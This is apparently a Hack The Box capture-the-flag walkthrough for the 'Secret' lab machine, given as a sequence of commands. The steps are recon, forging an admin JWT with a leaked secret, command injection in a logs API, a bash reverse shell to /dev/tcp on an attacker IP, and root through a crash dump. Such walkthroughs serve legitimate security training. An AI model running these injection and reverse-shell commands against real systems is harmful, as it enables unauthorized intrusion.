 # HTB: Secret — Command Walkthrough

## 📌 Box Info
- **Name:** Secret
- **IP:** 10.10.11.120
- **OS:** [Linux](Linux)
- **Difficulty:** Easy
- **Author:** z9fr

---

## 🔍 Recon
```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.11.120
nmap -p 22,80,3000 -sCV -oA scans/nmap-tcpscripts 10.10.11.120
```
```bash
curl http://10.10.11.120
curl http://10.10.11.120/download/files.zip
```

## 🕵️ JWT Registration & Login
```bash
curl -d '{"name":"0xdf0xdf","email":"dfdfdfdf@secret.com","password":"password"}' -X POST http://10.10.11.120/api/user/register -H 'Content-Type: Application/json'
```
```bash
curl -d '{"email":"dfdfdfdf@secret.com","password":"password"}' -X POST http://10.10.11.120/api/user/login -H 'Content-Type: Application/json'
```

## 📁 [Directory Discovery](HTTP)
```bash
feroxbuster -u http://10.10.11.120
```

## 🔐 JWT Analysis
```python
import jwt
token = '...'
secret = '...'
jwt.decode(token, secret)
```

## 🧪 JWT Forging
```python
j = jwt.decode(token, secret)
j['name'] = 'theadmin'
jwt.encode(j, secret)
```

## 🚨 Command Injection Test
```bash
curl -s 'http://10.10.11.120/api/logs?file=;id' -H "auth-token: <ADMIN_JWT_TOKEN>" | jq -r .
```

## ⚙️ Gaining Reverse Shell
```bash
curl -s -G 'http://10.10.11.120/api/logs' \
--data-urlencode "file=>/dev/null;bash -c 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1'" \
-H "auth-token: <ADMIN_JWT_TOKEN>" | jq -r .
```
```bash
nc -lnvp 443
```

## 🔼 Shell Upgrade
```bash
script /dev/null -c bash
[CTRL+Z]
stty raw -echo; fg
reset
screen
```

## 📄 Privilege Escalation via SUID FD Leak
```bash
./count
[CTRL+Z]
ls -l /proc/$(pidof count)/fd
```

## 💥 Exploiting Crash Dump
```bash
./count
[CTRL+Z]
kill -SIGSEGV $(pidof count)
apport-unpack _opt_count.1000.crash /tmp/0xdf
strings -n 30 /tmp/0xdf/CoreDump | less
```

## 🔑 [SSH](SSH) as Root
```bash
ssh -i root_id_rsa root@10.10.11.120
```